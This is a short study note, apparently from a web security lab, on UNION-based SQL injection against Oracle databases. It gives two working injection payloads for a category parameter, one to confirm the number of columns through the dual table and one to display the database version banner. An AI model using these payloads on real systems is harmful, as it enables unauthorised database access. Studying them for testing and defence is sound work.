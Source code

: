 ```yaml
---
dg-publish: true
---
```







- On Oracle databases, every `SELECT` statement must specify a table to select `FROM`. If your `UNION SELECT` attack does not query from a table, you will still need to include the `FROM` keyword followed by a valid table name.
- In the category params insert: — to verify that query returns two columns
    - `'+UNION+SELECT+'abc','def'+FROM+dual--`
- Use the following payload to display the database version:
    - `'+UNION+SELECT+BANNER,+NULL+FROM+v$version--`